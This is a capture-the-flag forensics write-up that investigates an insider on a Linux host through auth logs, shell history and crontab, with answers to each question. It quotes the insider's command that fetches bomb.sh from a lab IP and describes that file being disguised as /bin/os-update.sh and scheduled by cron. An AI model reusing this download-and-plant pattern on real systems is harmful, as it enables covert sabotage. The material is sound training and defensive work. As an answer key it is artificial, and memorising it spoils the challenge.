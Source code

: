# 🐧 Disgruntled: Insider Threat – Linux Forensics Investigation

## 🧠 Scenario

An employee from the IT department of one of our clients, **CyberT**, was recently arrested for running a phishing operation. CyberT has asked us to investigate a Linux system the individual accessed to determine whether any malicious activity occurred prior to their arrest.

This investigation required reviewing log files, shell history, and cron jobs to uncover potential insider threats.

---

## 🔍 Questions & Answers

---

### 1) The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

```bash
cat /var/log/auth.log | grep "install"
```
![installed package](Task1_answer.png)



> **Answer:** `/usr/bin/apt install dokuwiki`

---

### 2) What was the present working directory (PWD) when the previous command was run?

```bash
cat /var/log/auth.log | grep "install"
```
![installed package](Task1_answer.png)


> **Answer:** `/home/cybert`

---

### 3) Which user was created after the package from the previous task was installed?

```bash
cat /var/log/auth.log | grep "adduser"
```
![user added](task2_q1_answer.png)


> **Answer:** `it-admin`

---

### 4) A user was then later given sudo privileges. When was the sudoers file updated?  
_Format: Month Day HH:MM:SS_

```bash
cat /var/log/auth.log | grep "visudo"
```
![sudo](task2_q2_answer.png)


> **Answer:** `Dec 28 06:27:34`

---

### 5) A script file was opened using the "vi" text editor. What is the name of this file?

```bash
cat /var/log/auth.log | grep "vi"
```
![scriptfile](task2_q3_answer.png)


> **Answer:** `bomb.sh`

---

### 6) What is the command used that created the file bomb.sh?

```bash
cat /home/it-admin/.bash_history
```
![command](task3_q1_answer.png)

> **Answer:** `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

---

### 7) The file was renamed and moved to a different directory. What is the full path of this file now?

```bash
cat /home/it-admin/.viminfo
```
![rename](task3_q2_answer.png)


> **Answer:** `/bin/os-update.sh`

---

### 8) When was the file from the previous question last modified?  
_Format: Month Day HH:MM_

```bash
ls -al --full-time /bin/os-update.sh
```
![modified](task3_q3_answer.png)

> **Answer:** `Dec 28 06:29`

---

### 9) What is the name of the file that will get created when the file from the first question executes?

```bash
cat /bin/os-update.sh
```

![newfile](task3_q4_answer.png)

> **Answer:** `goodbye.txt`

---

### 10) At what time will the malicious file trigger?  
_Format: HH:MM AM/PM_

```bash
cat /etc/crontab
```
![time](task4_q1_answer.png)

> **Answer:** `08:00 AM`

---



